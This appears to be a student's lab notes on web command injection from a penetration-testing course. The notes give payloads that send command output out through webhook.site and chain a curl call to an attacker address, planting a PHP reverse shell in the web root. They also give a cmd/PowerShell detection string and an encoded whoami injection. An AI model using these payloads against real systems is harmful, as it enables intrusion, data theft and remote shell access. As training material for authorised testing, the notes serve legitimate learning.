

### Command Injection

https://appsecexplained.gitbook.io - a solid resource for for many things (not just command injection).  Has some quick exploitation checks to use.  

You can use `;` to end commands and move to a second command  
You can use `#` to comment out the rest of a command  

Among other things.  Check the link above and also do some google searches in order to find others.  

When returning items such as `cat etc/passwd` and/or `ls -lah` and you get it all in a not so readable mess, look at the page source (ctrl + u) and it will all be listed there in a nice readable format.

If you are able to get command injection, next step might be to try and pop a shell.  We'll always want to try and use the full path `/bin/bash/<script>` or `usr/local/bin/php/<script>` or otherwise.  If the first one doesn't work then try something else.

Using `which php` and `which python` and the like can tell you what other services are running.  This will also give you the full paths that you need for your script.

There are times that you will have out-of-band injection.  It's out of band because in order to see what the return is, we need to catch it in another location, such as https://webhook.site.  

For instance, we might have a command injection where we enter the following command  

	```  
	https://webhook.site/<random site number that gets spit out>?`whoami`  
	```  

This (with the included ? and command in backticks (tilde with no shift)) could return a result with the command run in your webhook.site site.  

You can also try to get a new line of command to execute, for example:  
	  

Put in the screen shot as the \\ character would not show up for whatever reason but you would use that \\n to create a new line and run a separate command.  

This is an old style.  A new one was added to the video  

`https://tcm-sec.com && curl 10.0.0.200:4444/rev.php > /var/www/html/rev.php`  

This command will check the website but will also `&&` run the curl command and save the output to `>` the location `/var/www/html/rev.php` so that we can go in and call that website to trigger the shell by going to `thesite.com/rev.php`  

If you're on a windows device and have a place for command injection, you can use the following to determine if you are in cmd or powershell.

```(dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell```

There are a lot of different formatting ways that some may be done.  In a capstone, it ended up being `test"&&whoami"` that had to be encoded in order to get it to work.